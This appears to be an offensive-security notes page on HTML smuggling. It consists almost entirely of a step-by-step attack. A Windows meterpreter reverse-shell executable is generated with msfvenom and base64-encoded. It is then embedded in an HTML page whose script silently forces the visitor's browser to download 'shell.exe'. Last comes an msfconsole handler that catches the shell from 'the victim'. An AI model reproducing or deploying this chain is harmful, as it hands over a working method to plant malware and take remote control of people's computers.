 ```yaml
---
title: HTML Smuggling
layout: default
parent: Client Side Execution
---
```


First generate a meterpreter shell:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

Then base64 the whole thing:

```bash
base64 /tmp/shell.exe
```

Remove all **line break** or **new lines**

Add the whole thing to below and serve as html (This works for all browser):

```html
<html>
<body>
<script>
function base64ToArrayBuffer(base64) {
var binary_string = window.atob(base64);
var len = binary_string.length;
var bytes = new Uint8Array( len );
for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i);
}
return bytes.buffer;
}
var file ='BASE64 PAYLOAD NEWLINE/BREAK REMOVED'
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'shell.exe';
if (navigator.msSaveBlob) {
    // Use IE11's APIs
    navigator.msSaveBlob(blob, fileName)
    
   // Other browsers
  } else {
    var a = document.createElement('a');
    document.body.appendChild(a);
    a.style = 'display: none';
    var url = window.URL.createObjectURL(blob);
    a.href = url;
    a.download = fileName;
    a.click();
    window.URL.revokeObjectURL(url);
  }
</script>
</body>
</html>
```

Remember to ready the mfsconsole before serving it to the victim:

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```
